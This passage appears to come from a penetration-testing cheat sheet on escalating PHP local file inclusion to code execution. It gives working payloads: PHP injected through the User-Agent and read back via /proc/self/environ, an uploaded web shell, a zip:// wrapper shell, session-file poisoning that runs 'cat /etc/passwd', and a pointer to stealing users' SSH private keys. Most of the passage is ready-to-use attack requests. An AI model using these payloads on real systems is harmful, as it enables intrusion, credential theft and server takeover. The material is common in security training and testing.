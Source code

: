Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```text
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### Via upload

If you can upload a file, just inject the shell payload in it \(e.g : `<?php system($_GET['c']); ?>` \).

```text
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf

### Via Zip fie upload

Upload a ZIP file containing a PHP shell compressed and access:

```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```

### Via PHP sessions

Check if the website use PHP Session \(PHPSESSID\)

```text
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into _/var/lib/php5/sess\_\[PHPSESSID\]_ files

```text
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```text
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```text
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

### Via ssh

If ssh is active check which user is being used \(/proc/self/status & /etc/passwd\) and try to access **&lt;HOME&gt;/.ssh/id\_rsa**
